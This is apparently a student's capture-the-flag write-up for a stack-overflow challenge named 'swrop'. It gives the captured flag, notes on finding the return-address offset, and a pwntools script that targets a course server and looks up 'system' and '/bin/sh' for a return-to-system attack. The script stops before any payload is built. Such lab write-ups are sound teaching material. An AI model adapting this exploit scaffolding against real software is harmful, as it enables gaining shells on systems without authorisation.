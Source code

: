 swrop
=============================================================
Flag: FLAG{eyJhbGciOiJIUzI1NiJ9.eyJjaGFsIjoiNS1zd3JvcCIsImlwIjoiMTQ0LjEzNi4yOC4zNiIsInNlc3Npb24iOiJhOTM4MTA4Zi00NGI3LTQwZjYtYTA0Yi02NmJkODZmMmZlMjUifQ.iiSXvRFv5zQKXVjHqwK68sVKgd3w0vXujWdzVp0g71E}
General overview of problems faced
-----------------------------------------------------------------
Need to find the offset to overflow to the return address
Need to properly place arguments (return address, then arguments)
Script/Command used
------------------------------------------------------------------------
```
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template
from pwn import *

# Set up pwntools for the correct architecture
context.update(arch='i386')
exe = './swrop' #Change this

PROGNAME = exe
REMOTE = "comp6447.wtf" #Change this
REMOTEPORT = 26332 #Change this
global p
global e
global global_timeout

e = ELF(PROGNAME)

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR


def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
continue
'''.format(**locals())

if args.REMOTE:
    global_timeout = 3
    p = remote(REMOTE, REMOTEPORT)
else:
    global_timeout = 0.5
    p = process(PROGNAME)
    p = start()
#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================

system_target = e.symbols["system"]
binsh_target = next(e.search(b"/bin/sh\00"))
```